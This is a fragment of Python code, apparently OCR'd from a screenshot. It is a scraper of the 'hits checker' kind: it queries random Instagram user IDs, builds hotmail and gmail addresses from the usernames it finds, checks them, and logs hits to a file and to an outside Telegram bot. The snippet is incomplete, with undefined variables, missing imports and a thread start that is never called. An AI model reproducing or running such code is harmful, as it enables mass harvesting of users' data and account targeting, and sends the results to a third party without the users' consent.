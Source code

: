     with open('hits.txt', 'a') as ff:
        ff.write(f'{tlg}\n')

    try:
        try:requests.get(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={idd}&text={tlg}")
        except:pass
    except Exception as e:
        pass
        
def gg():
    while True:
        data = {
            "lsd": ''.join(random.choices(string.ascii_letters + string.digits, k=32)),
            "variables": json.dumps({"id": int(random.randrange(bbk, id)), "render_surface": "PROFILE"}),
            "doc_id": "25618261841150840"
        }

        response = requests.post(
            "https://www.instagram.com/api/graphql",
            headers={"X-FB-LSD": data["lsd"]},
            data=data
        )
        try:
            username = response.json().get('data', {}).get('user', {}).get('username')
            emails = [username + '@hotmail.com', username + '@gmail.com']
            for email in emails:
                check(email)
        except:''
for _ in range(15):
    Thread(target=gg).start
